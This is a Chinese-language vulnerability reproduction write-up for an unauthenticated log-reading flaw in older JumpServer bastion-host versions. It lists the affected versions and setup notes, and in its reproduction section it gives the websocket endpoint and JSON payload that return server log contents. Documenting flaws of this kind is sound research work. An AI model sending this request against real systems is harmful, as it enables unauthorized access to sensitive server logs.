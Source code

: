 # 0x00 软件介绍
JumpServer：一款在中国流行的开源堡垒机

# 0x01 复现环境
复现环境：本地环境 centos7 x64  
复现版本：JumpServer v2.6.1  
环境搭建：  
1、使用官方提供的v2.6.1的quick_start.sh安装后，竟然后v2.6.2，这个坑真是无语了，使用知识星球师傅提供的安装脚本，安装后是v2.6.1（这个安装脚本执行后可能会报错，多试几次）  
2、执行quick_start.sh后，一路默认即可  
3、安装完成后需要切换到/opt/jumpserver-installer-v2.6.1/下执行jmsctl.sh，直接使用绝对路径会报错  
4、需要开启iptables，否则报错

# 0x02 利用条件
无

# 0x03 影响版本
JumpServer < v2.6.2  
JumpServer < v2.5.4  
JumpServer < v2.4.5

# 0x04 漏洞复现
攻击环境：kali x64  
chrome下安装扩展：https://chrome.google.com/webstore/detail/websocket-test-client/fgponpodhbmadfljofbimhhlengambbn/related  
访问搭建的环境：  
```
ws://192.168.1.73:8080/ws/ops/tasks/log/
{"task":"/opt/jumpserver/logs/jumpserver"}
```
如下图  
![image](./a1.png)  
红色圈出的部分即为读取到的远程服务器上的日志内容  
如下图  
![image](./a0.png)  
红色圈出的部分即为服务器上的日志内容

# 0x05 批量脚本
无

# 0x06 参考链接
https://articles.zsxq.com/id_5raonmuwqrru.html  
https://mp.weixin.qq.com/s?__biz=MzI5ODk3OTM1Ng==&mid=2247497420&idx=1&sn=49b6179b24a4275f016a80b16ba401aa&chksm=ec9f2fbfdbe8a6a9318f7ba90eaca911692ae24f72591225efb19eab4852cf8e893936ee2a06&mpshare=1&scene=1&srcid=01183gic1iE9CgPOeU1ZKNoQ&sharer_sharetime=1610978241607&sharer_shareid=39e4b7efe0bb5b2e5770f3a926f3062d&exportkey=AUvxarwZSXcAl0lXgRSI%2F2o%3D&pass_ticket=rI5WvWxPWj9wFDSMj42xLhizShWaMpx4MwP7SFhDHLUZpJ0zrnUrOlEEfOlgFO8t&wx_header=0#rd
